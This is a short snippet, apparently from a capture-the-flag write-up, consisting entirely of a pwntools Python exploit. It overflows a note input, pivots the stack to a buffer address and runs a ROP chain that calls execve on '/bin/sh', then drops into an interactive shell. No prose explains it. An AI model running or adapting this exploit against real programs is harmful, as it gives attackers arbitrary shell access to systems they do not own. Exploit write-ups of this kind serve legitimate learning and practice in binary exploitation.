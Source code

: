 ```python
private_buffer = 0x4c9320
syscall = 0x041b236
rdx_rbx = 0x048656b

payload = b'\x98' * 33
io.sendlineafter(b'note:', payload)

offset = 72
payload = flat({
    offset: [
        rop.rsp.address,
        private_buffer,
        rop.ret.address
    ]
})

ropchain = flat([
    rop.rdi.address,
    private_buffer + 10 * 8,
    rop.rsi.address,
    0,
    rop.find_gadget(["pop rdx", "pop rbx", "ret"])[0],
    0,
    0,
    rop.rax.address,
    0x3b,
    syscall, # syscall; ret;
    b'/bin/sh\x00',
])

io.sendlineafter(b'note:', ropchain)
io.sendlineafter(b'note:', payload)

io.interactive()
```
{% endcode %}

